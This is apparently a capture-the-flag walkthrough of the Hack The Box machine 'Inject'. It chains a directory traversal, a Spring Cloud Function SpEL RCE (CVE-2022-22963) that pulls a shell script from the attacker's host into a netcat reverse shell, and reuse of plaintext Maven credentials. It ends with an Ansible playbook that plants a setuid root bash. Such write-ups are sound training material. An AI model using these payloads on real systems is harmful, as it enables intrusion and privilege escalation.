






## INITIAL ENUMERATION

```shell
nmap -sV -sC 10.129.228.213
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-05 10:23 CET
Nmap scan report for 10.129.228.213
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.89 seconds
```

### Website - TCP 8080

#### Site

The site is for a cloud storage provider:



The Blogs page (`/blogs`) has three articles:


But clicking on them doesn’t go to anything.

Trying to register just gives an “Under Construction” message:


At the top right of the page, there’s an upload link, which goes to `/upload`:



If I try to upload a dummy text file, it rejects it:



If I give it an image, it returns a link to that image:


The link points at `/show_image?img=[uploaded image name]`.

## Shell as frank

### File Read / Directory Traversal

When I upload an image to the site, the link that comes back goes to `/show_image?img=[image name]`. In Burp, I can see that it’s returning the raw image:



I tried to fuzz the web-root directory with `ffuf`:

```shell
ffuf -u 'http://10.129.228.213:8080/show_image?img=../../../../../../FUZZ' -w web-root-linux -fc 500                

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.228.213:8080/show_image?img=../../../../../../FUZZ
 :: Wordlist         : FUZZ: /home/kali/Desktop/Machine/Inject/web-root-linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

var/www/                [Status: 200, Size: 4096, Words: 1, Lines: 1, Duration: 130ms]
var/www/html/           [Status: 200, Size: 4096, Words: 1, Lines: 1, Duration: 124ms]
:: Progress: [13/13] :: Job [1/1] :: 1 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

#### Web Directory

`/var/www` has two directories in it, `html` and `WebApp`:



`html` is empty (or inaccessible). `WebApp` has the root of a Java project:



### Spring Cloud Function SpEL Injection

#### Manual Identification

A `pom.xml` file is a configuration file used in Java projects that helps manage dependencies and build processes. It contains information about the project, such as its name, version, and dependencies on other software libraries. For my uses, the contents of a pom.xml file allow me to see if the project is using any insecure or out of date libraries by looking at the dependencies listed in the file.

Here, the `pom.xml` file is:

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>WebApp</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>WebApp</name>
    <description>Demo project for Spring Boot</description>
    <properties>
        <java.version>11</java.version>
    </properties>
    <dependencies>
        <dependency>
              <groupId>com.sun.activation</groupId>
              <artifactId>javax.activation</artifactId>
              <version>1.2.0</version>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-devtools</artifactId>
            <scope>runtime</scope>
            <optional>true</optional>
        </dependency>

        <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-function-web</artifactId>
            <version>3.2.2</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>org.webjars</groupId>
            <artifactId>bootstrap</artifactId>
            <version>5.1.3</version>
        </dependency>
        <dependency>
            <groupId>org.webjars</groupId>
            <artifactId>webjars-locator-core</artifactId>
        </dependency>

    </dependencies>
    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
                <version>${parent.version}</version>
            </plugin>
        </plugins>
        <finalName>spring-webapp</finalName>
    </build>

</project>
```

 I found a `spring-cloud-function-web` version. It is 3.2.2. Googling I found a RCE https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE

So I downloaded it and I modify it:

```shell
cat CVE-2022-22963-RCE.py
...[snip]
 GLOBALS
## LOCAL
lhost = "10.10.16.14"
lport = 443  # Port for listener
srvport = 8000  # Port to start HTTP Server
## REMOTE
rhost = "10.129.228.213"
rport = 8080
...[snip]
```

I'll start my `nc`:

```shell
nc -lnvp 443
```

And now I can run the script:

```shell
python CVE-2022-22963-RCE.py
[+] Serving on port 8000
[!] Press Ctrl+C to stop the server
[+] Creating shell.sh in current Directory...
[++] Done
[+] Sending shell to /dev/shm/shell.sh...
[++] Done
[+] Giving the server time to process...
        z z z z z 
10.129.228.213 - - [05/Dec/2025 11:33:19] "GET /shell.sh HTTP/1.1" 200 -
        z z z z 
        z z z 
        z z 
        z 
[++] Countdown finished!
[+] Making the shell executable...
[++] Done
[+] Executing shell...
[+] Server stopped.
```

On my `nc`:

```shell
nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.14] from (UNKNOWN) [10.129.228.213] 48616
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
frank@inject:/$
```

Looking at available direcotory at `/home/frank` I found a `settings.xml` file containing `phil` credentials:

```shell
frank@inject:~$ ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1  2023 .
drwxr-xr-x 4 root  root  4096 Feb  1  2023 ..
lrwxrwxrwx 1 root  root     9 Jan 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1  2023 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1  2023 .local
drwx------ 2 frank frank 4096 Feb  1  2023 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile

frank@inject:~$ cd .m2
frank@inject:~/.m2$ ls
settings.xml

frank@inject:~/.m2$ cat settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

```

## Shell as phil

That password didn’t work for SSH as phil, but it does work to `su` as phil:

```shell
frank@inject:~/.m2$ su - phil
Password: 
phil@inject:~$
```


## USER FLAG

With a shell as phil, I can get `user.txt`:

```shell
phil@inject:~$ cat user.txt
6295d6e19185b27d03e741b6313948f7
```


## ROOT FLAG

Looking at around I didn't find anything interersting. So I'll use pspy to check for running processes on the host. I'll start my Python webserver, adn fetch it to Inject with `wget`:

```shell
phil@inject:/dev/shm$ wget http://10.10.16.14:8888/pspy64
--2025-12-05 10:51:30--  http://10.10.16.14:8888/pspy64
Connecting to 10.10.16.14:8888... connected.
```

```shell
phil@inject:/dev/shm$ ./pspy64 -pf -i 1000
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

...[snip]
```

Every even minute there’s a flurry of activity, starting with:

```
2023/03/14 01:46:01 CMD: UID=0     PID=18659  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml              
2023/03/14 01:46:01 CMD: UID=0     PID=18658  | /usr/sbin/CRON -f
2023/03/14 01:46:01 CMD: UID=0     PID=18657  | /usr/sbin/CRON -f
2023/03/14 01:46:01 CMD: UID=0     PID=18656  | /usr/sbin/CRON -f                                                                   2023/03/14 01:46:01 CMD: UID=0     PID=18655  | /usr/sbin/CRON -f
2023/03/14 01:46:01 CMD: UID=0     PID=18660  | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml              2023/03/14 01:46:01 CMD: UID=0     PID=18661  | /usr/sbin/CRON -f
2023/03/14 01:46:01 CMD: UID=0     PID=18662  | sleep 10
```

root is running `ansible-parallel` on `*.yaml` in `/opt/automation/tasks`.

Searching on google I found a privilege escalation: https://github.com/iamnasef/ansible-privilege-escalation

### Execution Via Ansible

I’ll make a file that’s as simple as:

```
- hosts: localhost
  tasks:
  - name: 'Elliot'
    shell: cp /bin/bash /tmp/bash; chmod 4755 /tmp/bash
```

I’ll save this as `/opt/automation/tasks/elliot.yml`. When the cron runs, there’s a new file in `/tmp`:

```shell
phil@inject:/opt/automation/tasks$ ls -l /tmp
total 1200
-rwsr-xr-x 1 root  root  1183448 Dec  5 11:54 bash

```


This is a copy of `bash` that’s owned by root with the SetUID bit enabled. So when I run this (with `-p` to maintain privs), I get a shell as root:

```shell
phil@inject:/opt/automation/tasks$ /tmp/bash -p
bash-5.0# whoami
root
```

And I can read root.txt:

```shell
bash-5.0# cd /root
bash-5.0# cat root.txt
1ad7bf0098465033cbc6dce5cb3cd894
```

